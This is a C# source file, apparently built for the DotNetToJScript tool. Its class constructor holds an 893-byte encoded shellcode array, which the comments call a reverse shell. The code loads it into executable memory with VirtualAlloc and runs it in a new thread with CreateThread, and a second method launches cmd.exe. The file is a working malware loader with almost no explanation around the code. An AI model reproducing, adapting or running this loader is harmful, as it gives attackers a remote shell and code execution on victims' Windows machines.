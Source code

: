 //    This file is part of DotNetToJScript.
//    Copyright (C) James Forshaw 2017
//
//    DotNetToJScript is free software: you can redistribute it and/or modify
//    it under the terms of the GNU General Public License as published by
//    the Free Software Foundation, either version 3 of the License, or
//    (at your option) any later version.
//
//    DotNetToJScript is distributed in the hope that it will be useful,
//    but WITHOUT ANY WARRANTY; without even the implied warranty of
//    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
//    GNU General Public License for more details.
//
//    You should have received a copy of the GNU General Public License
//    along with DotNetToJScript.  If not, see <http://www.gnu.org/licenses/>.

using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

 
[ComVisible(true)]
public class TestClass
{

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
  uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int nSize, out IntPtr lpNumberOfBytesWritten);
    public TestClass()
    {

        byte[] buf = new byte[893] {0xeb,0x27,0x5b,0x53,0x5f,0xb0,
0x6c,0xfc,0xae,0x75,0xfd,0x57,0x59,0x53,0x5e,0x8a,0x06,0x30,
0x07,0x48,0xff,0xc7,0x48,0xff,0xc6,0x66,0x81,0x3f,0x70,0x08,
0x74,0x07,0x80,0x3e,0x6c,0x75,0xea,0xeb,0xe6,0xff,0xe1,0xe8,
0xd4,0xff,0xff,0xff,0x13,0x08,0x6c,0xef,0x40,0x90,0xec,0xe3,
0xe0,0xdf,0x08,0x13,0x08,0x52,0x59,0x52,0x58,0x41,0x40,0x22,
0xda,0x76,0x40,0x98,0x5a,0x73,0x59,0x45,0x40,0x98,0x5a,0x0b,
0x40,0x98,0x5a,0x33,0x40,0x98,0x7a,0x43,0x40,0x1c,0xbf,0x59,
0x42,0x5e,0x39,0xda,0x40,0x22,0xc8,0xbf,0x34,0x72,0x74,0x11,
0x24,0x33,0x49,0xd2,0xc1,0x1e,0x49,0x12,0xc9,0xf1,0xe5,0x41,
0x40,0x98,0x5a,0x33,0x49,0x42,0x83,0x51,0x34,0x5b,0x09,0xc3,
0x6e,0x92,0x70,0x0b,0x03,0x11,0x07,0x96,0x7a,0x13,0x08,0x13,
0x83,0x93,0x80,0x13,0x08,0x13,0x40,0x96,0xc8,0x67,0x6f,0x5b,
0x09,0xc3,0x58,0x98,0x40,0x0b,0x4c,0x98,0x48,0x33,0x41,0x12,
0xd8,0xf0,0x5e,0x5b,0xf7,0xda,0x45,0x22,0xc1,0x52,0x83,0x27,
0x80,0x5b,0x09,0xc5,0x40,0x22,0xc8,0xbf,0x49,0xd2,0xc1,0x1e,
0x49,0x12,0xc9,0x2b,0xe8,0x66,0xf9,0x5f,0x0b,0x5f,0x2c,0x1b,
0x4d,0x2a,0xd9,0x66,0xd0,0x4b,0x4c,0x98,0x48,0x37,0x41,0x12,
0xd8,0x75,0x49,0x98,0x04,0x5b,0x4c,0x98,0x48,0x0f,0x41,0x12,
0xd8,0x52,0x83,0x17,0x80,0x5b,0x09,0xc3,0x49,0x4b,0x49,0x4b,
0x56,0x4a,0x52,0x52,0x50,0x52,0x51,0x52,0x52,0x5b,0x8b,0xff,
0x28,0x52,0x5a,0xec,0xe8,0x4b,0x49,0x4a,0x52,0x5b,0x83,0x01,
0xe1,0x58,0xf7,0xec,0xf7,0x4e,0x40,0x22,0xd3,0x40,0x41,0xad,
0x7f,0x7a,0x66,0x7a,0x66,0x76,0x7c,0x13,0x49,0x45,0x40,0x9a,
0xe9,0x5a,0xcf,0xd1,0x44,0x64,0x2e,0x14,0xf7,0xc6,0x5b,0x40,
0xe0,0x47,0x08,0x13,0x08,0x5e,0x67,0x69,0x61,0x7f,0x64,0x72,
0x27,0x26,0x26,0x23,0x28,0x3b,0x45,0x72,0x6b,0x7a,0x66,0x67,
0x67,0x60,0x60,0x28,0x28,0x5a,0x66,0x67,0x6d,0x7f,0x28,0x5e,
0x69,0x70,0x28,0x5c,0x5b,0x33,0x50,0x33,0x39,0x27,0x26,0x24,
0x33,0x33,0x7a,0x65,0x32,0x22,0x3b,0x20,0x26,0x23,0x21,0x33,
0x4f,0x76,0x6b,0x78,0x67,0x3c,0x3a,0x23,0x39,0x23,0x38,0x22,
0x38,0x22,0x28,0x55,0x61,0x61,0x6d,0x75,0x67,0x6b,0x27,0x22,
0x3b,0x20,0x26,0x23,0x08,0x4a,0x5b,0x49,0x45,0x22,0xc8,0x5e,
0x39,0xda,0x5b,0x40,0x41,0xa9,0x32,0x45,0x71,0xb4,0x08,0x13,
0x08,0x13,0xf7,0xc6,0xe0,0x1d,0x08,0x13,0x08,0x22,0x31,0x21,
0x26,0x22,0x3e,0x2b,0x26,0x22,0x26,0x22,0x31,0x25,0x08,0x49,
0x40,0x9a,0xc9,0x5a,0xcf,0xd3,0x63,0x32,0x08,0x13,0x45,0x22,
0xc1,0x40,0x5b,0x79,0x0b,0x40,0x41,0xa9,0x5f,0x9a,0x97,0xd5,
0x08,0x13,0x08,0x13,0xf7,0xc6,0xe0,0xd9,0x08,0x13,0x08,0x3c,
0x5e,0x20,0x72,0x2b,0x5c,0x41,0x7a,0x24,0x79,0x75,0x3c,0x57,
0x46,0x64,0x41,0x22,0x69,0x4c,0x3f,0x4a,0x6d,0x42,0x79,0x67,
0x69,0x69,0x70,0x41,0x7e,0x69,0x3b,0x64,0x40,0x5e,0x65,0x76,
0x5a,0x7c,0x60,0x58,0x52,0x79,0x7f,0x51,0x5c,0x55,0x60,0x62,
0x47,0x50,0x7d,0x59,0x4b,0x5e,0x4c,0x56,0x44,0x51,0x57,0x79,
0x57,0x70,0x3e,0x74,0x6e,0x7f,0x70,0x77,0x67,0x44,0x6f,0x47,
0x4b,0x6a,0x6d,0x5a,0x6f,0x2a,0x7c,0x66,0x7f,0x20,0x5f,0x61,
0x31,0x2a,0x4e,0x3e,0x59,0x7c,0x67,0x57,0x3b,0x52,0x30,0x75,
0x49,0x27,0x6b,0x2a,0x6d,0x59,0x40,0x45,0x6f,0x63,0x51,0x52,
0x5b,0x6b,0x3e,0x45,0x4f,0x5c,0x5f,0x51,0x4a,0x79,0x39,0x4b,
0x4a,0x5c,0x61,0x7b,0x51,0x59,0x63,0x63,0x44,0x5c,0x42,0x79,
0x5b,0x64,0x71,0x65,0x6c,0x5e,0x6f,0x65,0x4c,0x71,0x44,0x23,
0x4c,0x25,0x6b,0x40,0x6c,0x45,0x72,0x27,0x5c,0x26,0x3a,0x78,
0x25,0x56,0x5f,0x21,0x7b,0x67,0x7b,0x2a,0x52,0x4c,0x42,0x76,
0x31,0x5c,0x71,0x76,0x66,0x49,0x78,0x27,0x65,0x74,0x57,0x54,
0x72,0x2b,0x3e,0x43,0x7c,0x72,0x6e,0x4a,0x6f,0x54,0x6e,0x4a,
0x78,0x24,0x64,0x7b,0x63,0x7e,0x45,0x26,0x08,0x5b,0x81,0xd2,
0x5b,0x49,0x49,0x4b,0x45,0x22,0xc1,0x40,0x40,0xab,0x08,0x21,
0xa0,0x97,0x08,0x13,0x08,0x13,0x58,0x40,0x5b,0x5a,0xcf,0xd1,
0xe3,0x46,0x26,0x28,0xf7,0xc6,0x40,0x9a,0xce,0x79,0x02,0x4c,
0x40,0x9a,0xf9,0x79,0x17,0x49,0x5a,0x7b,0x88,0x20,0x08,0x13,
0x41,0x9a,0xe8,0x79,0x0c,0x52,0x51,0x5a,0xb2,0x66,0x4e,0x8d,
0x8e,0x13,0x08,0x13,0x08,0xec,0xdd,0x5e,0x39,0xd3,0x5b,0x49,
0x40,0x9a,0xf9,0x5e,0x39,0xda,0x45,0x22,0xc1,0x40,0x5b,0x5a,
0xcf,0xd1,0x25,0x15,0x10,0x68,0xf7,0xc6,0x8d,0xd3,0x7d,0x0c,
0x40,0xd4,0xc9,0x9b,0x1b,0x13,0x08,0x5a,0xb2,0x57,0xf8,0x26,
0xe8,0x13,0x08,0x13,0x08,0xec,0xdd,0x5b,0xf7,0xdc,0x7c,0x11,
0xe3,0xb9,0xe0,0x46,0x08,0x13,0x08,0x40,0x51,0x79,0x48,0x49,
0x41,0x9a,0xd9,0xd2,0xea,0x03,0x41,0xd4,0xc8,0x13,0x18,0x13,
0x08,0x5a,0xb2,0x4b,0xac,0x40,0xed,0x13,0x08,0x13,0x08,0xec,
0xdd,0x5b,0x9b,0x40,0x5b,0x5b,0x81,0xf4,0x40,0x9a,0xf9,0x5b,
0x81,0xc9,0x41,0xd4,0xc8,0x13,0x28,0x13,0x08,0x5a,0x81,0xea,
0x41,0xa9,0x1a,0x85,0x81,0xf1,0x08,0x13,0x08,0x13,0xf7,0xc6,
0x40,0x90,0xcc,0x33,0x8d,0xd3,0x7c,0xa1,0x6e,0x98,0x0f,0x5b,
0x09,0xd0,0x8d,0xd3,0x7d,0xc1,0x50,0xd0,0x50,0x79,0x08,0x4a,
0x41,0xd4,0xca,0xe3,0xbd,0xb1,0x5e,0xec,0xdd,0x70,0x08};

        int size = buf.Length;

        //allocate memory
        var virtaddr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        // copy revshell into memory
        System.Runtime.InteropServices.Marshal.Copy(buf, 0, virtaddr, (int)size);


        //create thread and start process
        var thandle = CreateThread(IntPtr.Zero, 0, virtaddr,
            IntPtr.Zero, 0, IntPtr.Zero);


        //waits for the shell to end so the revshell doesnt get closed early
        WaitForSingleObject(thandle, 0xFFFFFFFF);
    }

    public void RunProcess()
    {
        Process.Start("C:\\windows\\system32\\cmd.exe");
    }
}

